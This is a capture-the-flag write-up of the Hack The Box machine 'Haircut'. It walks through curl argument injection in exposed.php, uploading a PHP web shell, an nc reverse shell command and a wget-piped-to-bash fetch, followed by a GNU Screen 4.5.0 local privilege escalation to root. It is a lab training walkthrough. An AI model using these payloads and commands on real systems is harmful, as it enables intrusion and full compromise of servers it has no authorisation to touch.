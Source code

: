 # Haircut

This is the write-up for the box Haircut that got retired at the 30th September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.24    haircut.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/haircut.nmap 10.10.10.24
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we only see a photo of a person and nothing interesting in the source.
Lets search for hidden paths and PHP files with **Gobuster**:
```markdown
gobuster -u http://10.10.10.24/ -w dir /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

We get back the path _/uploads_ with HTTP Code 403 Forbidden, a page _/test.html_, where its a picture of hair and _/exposed.php_ where we see this:

![Exposed page](https://kyuu-ji.github.io/htb-write-up/haircut/haircut_web-1.png)

When we click on _Go_, we get back the _test.html_ site.
If we start a web server and input the IP of our server in there it tries to connect to us.

Trying special characters like semicolon and pipes get filtered with a warning, that those characters can't be used.
By inputting anything into the field, we get the an error from `curl`:

![Curl identified](https://kyuu-ji.github.io/htb-write-up/haircut/haircut_web-2.png)

This means this sends a `curl` command to get the files and this is what we want to abuse.
Lets send this to _Burpsuites Repeater_ to try some things with _cURL_.

### Getting a revers shell

We can try to put parameters of _cURL_ in there:
```markdown
formurl=--version&submit=Go
```

This works and gives us the version number of cURL, so lets try to upload something on the _/uploads_ directory with it.
```markdown
formurl=-o uploads/test.html http://10.10.14.23:8000/test.html&submit=Go
```

Requesting the test.html file we get it back, so we can upload a PHP file to get command execution.
The web shell _shell.php_ file I will upload has this code in it:
```php
<?php echo system($\_REQUEST['cmd']); ?>
```

Now we can request the file with the command `whoami` to test it:
```markdown
GET /uploads/shell.php?cmd=whoami HTTP/1.1
```

This works and we can send a command to start a reverse shell on the box.
```markdown
GET /uploads/shell.php?cmd=nc -e /bin/sh 10.10.14.23 9001 HTTP/1.1
```

We are on the box as _www-data_.

## Privilege Escalation

We will execute any Linux enumeration script to get an attack surface:
```markdown
wget http://10.10.14.23:8000/LinEnum.sh | bash
```

Looking for binaries with the _Setuid bit_ enabled:
```markdown
find / -perm -4000 2>/dev/null | xargs ls -la
```

The binay `screen` has the setuid bit set and explicitly the version number 4.5.0 displayed which has a privilege escalation vulnerability that we will exploit. The explanation for this exploit can be found through `searchsploit screen` on the **GNU Screen 4.5.0 - Local Privilege Escalation (PoC)** exploit.

For this we need to create some files first. They are in this folder.
- libhax.c:
- rootshell.c

Compiling the code:
```markdown
gcc rootshell.c -o rootshell

gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

Now we created the Shared object file _libhax.so_ and the binary _rootshell_.

Executing these commands one after another and in the end executing the _rootshell_ binary:
```markdown
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

This will start a shell as root!
